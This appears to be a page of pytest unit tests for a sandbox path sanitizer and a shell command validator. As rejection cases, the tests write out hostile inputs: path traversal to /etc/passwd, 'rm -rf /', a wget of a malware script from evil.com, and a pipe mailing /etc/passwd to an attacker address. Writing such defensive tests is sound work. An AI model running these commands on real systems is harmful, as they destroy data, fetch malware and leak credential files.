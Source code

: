 ```python
    """Test dangerous patterns in paths"""
    sandbox = Sandbox(test_config)

    with pytest.raises(ValueError):
        sandbox.sanitize_path("test/../../../etc/passwd")

    with pytest.raises(ValueError):
        sandbox.sanitize_path("~/secret.txt")

    with pytest.raises(ValueError):
        sandbox.sanitize_path("test$file.txt")
```

**Task 5.2.3: Test command validation**
```python
# tests/unit/test_validators.py
import pytest
from safety.validators import Validator

def test_validate_safe_commands(test_config):
    """Test safe commands pass validation"""
    validator = Validator(test_config)

    assert validator.validate_command("ls -la")
    assert validator.validate_command("pwd")
    assert validator.validate_command("echo hello")

def test_reject_dangerous_commands(test_config):
    """Test dangerous commands are rejected"""
    validator = Validator(test_config)

    with pytest.raises(ValueError):
        validator.validate_command("rm -rf /")

    with pytest.raises(ValueError):
        validator.validate_command("wget http://evil.com/malware.sh")

    with pytest.raises(ValueError):
        validator.validate_command("sudo rm -rf /")

def test_reject_command_chaining(test_config):
    """Test command chaining is blocked"""
    validator = Validator(test_config)

    with pytest.raises(ValueError):
        validator.validate_command("ls && rm -rf /")

    with pytest.raises(ValueError):
        validator.validate_command("echo hello; wget evil.com")

    with pytest.raises(ValueError):
        validator.validate_command("cat /etc/passwd | mail attacker@evil.com")

def test_reject_redirects(test_config):
    """Test file redirects are blocked"""
    validator = Validator(test_config)

    with pytest.raises(ValueError):
        validator.validate_command("echo secret > /etc/passwd")

    with pytest.raises(ValueError):
        validator.validate_command("cat important.txt >> attacker.com")
```
